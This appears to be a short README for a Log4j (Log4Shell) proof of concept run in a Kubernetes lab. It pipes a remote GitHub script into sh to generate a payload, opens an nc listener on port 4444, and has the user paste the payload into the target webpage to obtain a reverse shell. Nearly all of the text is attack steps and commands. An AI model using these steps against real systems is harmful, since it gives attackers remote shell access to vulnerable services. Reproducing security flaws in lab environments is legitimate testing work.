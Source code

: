 # log4j-poc in kubernetes environment

Terminal 1:
- `apt-get update && apt-get install -y wget;wget -q -O - https://raw.githubusercontent.com/nandakrr/log4j-poc/main/run.sh | sh`

Terminal 2:
- `kubectl exec -it nc-pod -- nc -lvnp 4444`

Terminal 3:
- `kubectl get all | grep java-ms-svc | awk '{print $4}'`

- 1.Copy&paste the output of terminal 3 in the browser.
- 2.Copy&paste the payload generated by terminal 1 in the webpage.
- 3.Now check the terminal 2, you may get the reverse shell if application is vulnerable to log4j
